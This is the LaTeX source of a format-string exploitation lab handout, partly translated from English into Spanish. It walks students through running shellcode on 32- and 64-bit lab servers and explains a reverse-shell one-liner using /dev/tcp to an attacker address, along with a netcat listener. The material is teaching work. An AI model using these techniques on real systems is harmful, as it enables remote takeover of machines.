Esto se debe a que cada cadena necesita terminar con un cero, pero dado que en un shellcode no podemos poner ceros, ponemos un placeholder al final de cada una de ellas, y a la hora de su ejecución reemplazaremos ese placeholder por un cero.

Si quisieramos el comando que se va a ejecutar en el shellcode, solamente tenemos que modificar la cadena ubicada en la línea \ding{204}.
Debe tener en cuenta que al hacer este tipo de cambio, se debe preservar la misma longitud de cadena que se tiene originalmente,
If we want the shellcode to run some other commands,
we just need to modify the command string in Line~\ding{204}.
However, when making changes, we need to
make sure not to change the length of this string, because the
starting position of the placeholder for the \texttt{argv[]} array,
which is right after the command string,
is hardcoded in the binary portion of the shellcode. If
we change the length, we need to modify the binary part.
To keep the star at the end of this string at the same position,
you can add or delete spaces.



%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

Las versiones de 32-bits y de 64-bits del shellcode son incluídas en el archivo \texttt{exploit.py} dentro del directorio \texttt{attack-code}. 
Puede usarlos para construir su ataque en la explotación de la vulnerabilidad de format string.


% -------------------------------------------
% SUBSECTION
% -------------------------------------------
\subsection{Su Tarea} 

Please construct your input, feed it to the server program, and demonstrate that you can
successfully get the server to run your shellcode. 
In your lab report, you need to explain
how your format string is constructed. Please mark on Figure~\ref{format:fig:stacklayout} where 
your malicious code is stored (please provide the concrete address). 


\paragraph{Getting a Reverse Shell.}
We are not interested in running some pre-determined commands. We
want to get a root shell on the target server, so we can
type any command we want. Since we are on a remote machine,
if we simply get the server to run \texttt{/bin/bash}, we won't be able to
control the shell program. Reverse shell is a typical
technique to solve this problem. Section~\ref{sec:guildelines} provides
detailed instructions on how to run a reverse shell.
Please modify the command string in your shellcode, so you can
get a reverse shell on the target server.
Please include screenshots and explanation in your lab report.



% *******************************************
% SECTION
% *******************************************
\section{Tarea 5: Atacando el Programa de 64-bits}

In the previous tasks, our target servers are 32-bit
programs. In this task, we switch to a 64-bit server
program.  Our new target is \texttt{10.9.0.6}, which
runs the 64-bit version of the \texttt{format} program.
Let's first send a hello message to this server.
We will see the following messages printed out by the target container.


\begin{lstlisting}
$ echo hello | nc 10.9.0.6 9090
Press Ctrl+C

// Printouts on the container's console
server-10.9.0.6 | Got a connection from 10.9.0.1
server-10.9.0.6 | Starting format
server-10.9.0.6 | Input buffer (address):        0x00007fffffffe200
server-10.9.0.6 | The secret message's address:  0x0000555555556008
server-10.9.0.6 | The target variable's address: 0x0000555555558010
server-10.9.0.6 | Input size: 6
server-10.9.0.6 | Frame Pointer (inside myprintf):      0x00007fffffffe140
server-10.9.0.6 | The target variable's value (before): 0x1122334455667788
server-10.9.0.6 | hello
server-10.9.0.6 | (^_^)(^_^)  Returned from printf()  (^_^)(^_^)
server-10.9.0.6 | The target variable's value (after):  0x1122334455667788
\end{lstlisting}
 

You can see the values of the frame pointer and buffer's address
become 8 bytes long (instead of 4 bytes in 32-bit programs).
Your job is to construct your payload to exploit the format-string 
vulnerability of the server.
You ultimate goal is to get a root shell on
the target server. You need to use the 64-bit version of the shellcode.


\paragraph{Challenges caused by 64-bit Address.}
A challenge caused by the x64 architecture is the zeros in the address.
Although the x64 architecture
supports 64-bit address space, only the address from
\texttt{0x00} through \texttt{0x00007FFFFFFFFFFF} is allowed. That means for
every address (8 bytes), the highest two bytes are always zeros.
This causes a problem.

In the attack, we need to place addresses inside the format string. For
32-bit programs, we can put the addresses anywhere, because there
are no zeros inside the address. We can no longer do this
for the 64-bit programs. If you put an address in the middle of
your format string, when \texttt{printf()} parses the
format string, it will stop the parsing when it sees a zero. Basically,
anything after the first zero in a format string will not
be considered as part of the format string.

The problem caused by zeros is different from that
in the buffer overflow attack, in which,
zeros will terminate the memory copy if \texttt{strpcy()} is used. 
Here, we do not have memory copy in the program, 
so we can have zeros in our input, but where to put them
is critical. 
There are many ways to solve this problem, and 
we leave this to students. In the lab report, students
should explain how they have solved this problem. 


\paragraph{A userful technique: moving the argument pointer freely.}
In a format string, we can use \texttt{\%x} to move the
argument pointer \texttt{va\_list} to the next optional arguments.
We can also directly move the pointer to the \texttt{k}-th optional argument.
This is done using the format string's parameter field (in the form of
\texttt{k\$}).
The following code example uses \texttt{"\%3\$.20x"} to print out the value of the
3rd optional argument (number 3), and then uses \texttt{"\%6\$n"} to write
a value to the 6th optional argument (the variable \texttt{var}, its
value will become \texttt{20}). Finally,
using \texttt{\%2\$.10x}, it moves the pointer back to the 2nd
optional argument (number 2), and print it out. You can see,
using this method, we can move the pointer freely back and forth.
This technique can be quite useful to simplify the construction
of the format string in this task.

\begin{lstlisting}
#include <stdio.h>
int main()
{
    int var = 1000;
    printf("%3$.20x%6$n%2$.10x\n", 1, 2, 3, 4, 5, &var);
    printf("The value in var: %d\n",var);
    return 0;
}
----- Output ------
seed@ubuntu:$ a.out
000000000000000000030000000002
The value in var: 20
\end{lstlisting}




% *******************************************
% SECTION
% *******************************************
\section{Tarea 6: Arreglando el Problema}

Remember the warning message generated by the \texttt{gcc} compiler? Please explain what
it means. Please fix the vulnerability in the server program, and recompile it. 
Does the compiler warning go away? Do your attacks 
still work? You only need to try one of your attacks to see whether it still
works or not. 


% *******************************************
% SECTION
% *******************************************
\section{Guía de Shell Reversa}
\label{sec:guildelines}


%\section{Guidelines: Creating Reverse Shell}
%\label{shellshock:sec:reverseshell}

La idea principal de una shell reversa es poder redirigir los dispositivos de standard input, output y error hacia una conexión de red, pudiendo así enviar y recibir información a través de este canal por la shell. En la otra punta de la conexión estará la máquina del atacante corriendo un programa mostrando lo que venga de la shell del otro lado de la conexión, al mismo tiempo este programa enviará lo que el atacante escriba usando la misma conexión de red.

Uno de los programas más usados por los atacantes para este propósito es \texttt{netcat}, si se corre con el parámetro \texttt{"-l"}, este se pondrá a la escucha de un puerto TCP en un puerto específico, convirtiéndose en un servidor TCP. Este servidor bastante simple hecho con netcat, imprimirá lo que llegue lo que se envie por un cliente y enviará lo que el usuario corriendo el servidor escriba.
En el siguiente experimento usaremos  \texttt{netcat} para ponernos a la escucha en el puerto TCP \texttt{9090} simulando ser un servidor TCP.

\begin{lstlisting}
Attacker(10.0.2.6):$ nc -nv -l 9090  (*@\reflectbox{\ding{217}} \textbf{Waiting for reverse shell}@*)
Listening on 0.0.0.0 9090
Connection received on 10.0.2.5 39452
Server(10.0.2.5):$     (*@\reflectbox{\ding{217}} \textbf{Reverse shell from 10.0.2.5.}@*)
Server(10.0.2.5):$ ifconfig
ifconfig
enp0s3: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet (*@\textbf{10.0.2.5}@*)  netmask 255.255.255.0  broadcast 10.0.2.255
        ...
\end{lstlisting}

El comando \texttt{nc} mostrado arriba, se pondrá a la escucha en el puerto TCP 9090 y se bloqueará en espera de nuevas conexiones.
A continuación con el fin de emular lo que haría un atacante después de comprometer el servidor por medio del ataque de Shellshock, debemos de correr el programa bash mostrado más abajo en el servidor cuya dirección IP es (\texttt{10.0.2.5}).
Este programa lanzará una conexión TCP en el puerto 9090 hacia la máquina del atacante, otorgándole así una shell reversa. Podremos observar el prompt shell que nos indica que la shell está corriendo en el servidor; podemos usar el comando \texttt{ifconfig} para verificar que la dirección IP es la correcta (\texttt{10.0.2.5}) y que es la que pertenece a la máquina que hostea el servidor. A continuación se muestra la sentencia de bash que debe ser ejecutada:

\begin{lstlisting}
Server(10.0.2.5):$ /bin/bash -i > /dev/tcp/10.0.2.6/9090 0<&1 2>&1
\end{lstlisting}

Este comando normalmente es ejecutado por un atacante en un servidor comprometido.
Es un tanto engorroso, en los siguientes parráfos darémos una explicación detallada de su funcionamiento. 


\begin{itemize}

\item \texttt{"/bin/bash -i"}: El parámetro \texttt{i} es quiere decir que la shell será una shell interactiva, esto significa que nos permitirá interactuar para enviar y recibir información usando la shell.

\item \texttt{"> /dev/tcp/10.0.2.6/9090"}: Esto hace que el (\texttt{stdout}) (standard output) de la shell sea redirigido hacia la conexión TCP establecida con la IP del atacante \texttt{10.0.2.6} en el puerto \texttt{stdout} es el  \texttt{9090}. En sistemas \unix, el número del descriptor de archivo (file descriptor) del \texttt{stdout} es el \texttt{1}

\item \texttt{"0<\&1"}: El descriptor de archivo (file descriptor) cuyo número es \texttt{0} representa el standard input (\texttt{stdin}). Esta opción le indica al sistema que use el standard output como standard input.
Dado que el \texttt{stdout} está siendo redirigido hacia una conexión TCP, esta opción le indica al programa shell que obtendrá su entrada usando la misma conexión.

\item \texttt{"2>\&1"}: El descriptor de archivo (file descriptor) cuyo número es cuyo número es \texttt{2} representa el standard error \texttt{stderr}.
Esto hace que cualquier error que pueda ocurrir sea redirigido al \texttt{stdout} que es la conexión TCP.

\end{itemize}

Para concluir, el comando  \texttt{"/bin/bash -i > /dev/tcp/10.0.2.6/9090 0<\&1 2>\&1"}  ejecuta una shell \texttt{bash} en la máquina del servidor cuyo input viene de una conexión TCP y su output sale por la misma conexión TCP.
En nuestro experimento al ejecutar la shell \texttt{bash} en el servidor \texttt{10.0.2.5} este establecerá una conexión reversa hacia  \texttt{10.0.2.6}. Esto puede ser verificado por medio del mensaje \texttt{"Connection from 10.0.2.5 ..."} mostrado en \texttt{netcat}.









% *******************************************
% SECTION
% ******************************************* 
\section{Submission}

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

Debe enviar un informe de laboratorio detallado, con capturas de pantalla, para describir lo que ha hecho y lo que ha observado.
También debe proporcionar una explicación a las observaciones que sean interesantes o sorprendentes.
Enumere también los fragmentos de código más importantes seguidos de una explicación. No recibirán créditos aquellos fragmentos de códigos que no sean explicados.
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%


\end{document}
